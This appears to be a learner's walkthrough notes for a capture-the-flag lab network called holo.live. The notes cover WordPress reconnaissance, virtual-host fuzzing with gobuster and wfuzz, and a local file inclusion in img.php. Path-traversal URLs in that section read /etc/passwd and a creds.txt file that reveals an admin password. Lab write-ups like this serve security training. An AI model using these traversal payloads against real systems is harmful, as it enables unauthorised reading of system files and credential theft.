 
As you can see that we are not able to load the page fully 
![[Pasted image 20240810102758.png]]

Which means that we need to add the IP address in our localhost and see the magic

```
whatweb 10.201.11.33
http://10.201.11.33 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.201.11.33], MetaGenerator[WordPress 5.5.3], Script[text/javascript], Title[holo.live], UncommonHeaders[link], WordPress[5.5.3], X-UA-Compatible[IE=edge]
```

We were able to see from the nmap and nikto scan that we are able to access the robots.txt
```
http://www.holo.live/robots.txt
```
![[Pasted image 20240810164134.png]]

```
low: /var/www/wordpress/index.php
Disallow: /var/www/wordpress/readme.html
Disallow: /var/www/wordpress/wp-activate.php
Disallow: /var/www/wordpress/wp-blog-header.php
Disallow: /var/www/wordpress/wp-config.php
Disallow: /var/www/wordpress/wp-content
Disallow: /var/www/wordpress/wp-includes
Disallow: /var/www/wordpress/wp-load.php
Disallow: /var/www/wordpress/wp-mail.php
Disallow: /var/www/wordpress/wp-signup.php
Disallow: /var/www/wordpress/xmlrpc.php
Disallow: /var/www/wordpress/license.txt
Disallow: /var/www/wordpress/upgrade
Disallow: /var/www/wordpress/wp-admin
Disallow: /var/www/wordpress/wp-comments-post.php
Disallow: /var/www/wordpress/wp-config-sample.php
Disallow: /var/www/wordpress/wp-cron.php
Disallow: /var/www/wordpress/wp-links-opml.php
Disallow: /var/www/wordpress/wp-login.php
Disallow: /var/www/wordpress/wp-settings.php
Disallow: /var/www/wordpress/wp-trackback.php
```

Let's do the next thing and for now it's Directory Bursting.

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.201.11.33 -o gobuster/vhost-sub.txt -t 2
```

https://wfuzz.readthedocs.io/en/latest/user/getting.html
```
wfuzz -u http://holo.live -w /usr/share/seclists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.holo.live" --hh 21456
```
![[Pasted image 20240810180924.png]]

now we have to add admin and dev and will see if we are able to get something.


Got 2 new sites
```
http://admin.holo.live/
```

```
http://dev.holo.live/
```


SO we need id and password to login for which we have to do some OSINT and see what we can find from the development site

```
http://dev.holo.live/img.php?file=images/matsuri.jpg
```
Can we find LFI here or not ?_?

Yes my hunch was right and i have taken the help of chat gpt.
![[Pasted image 20240813200130.png]]
```
http://dev.holo.live/img.php?file=../../../../etc/passwd
```
![[Pasted image 20240813200211.png]]

So we found a new site in admin 
```
http://admin.holo.live/robots.txt
```
![[Pasted image 20240813202422.png]]

So now we can give it a try if we can read the creds.txt 

```
http://dev.holo.live/img.php?file=../../../../../../../../var/www/admin/supersecretdir/creds.txt
```

Yup it worked and i got the password
```
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
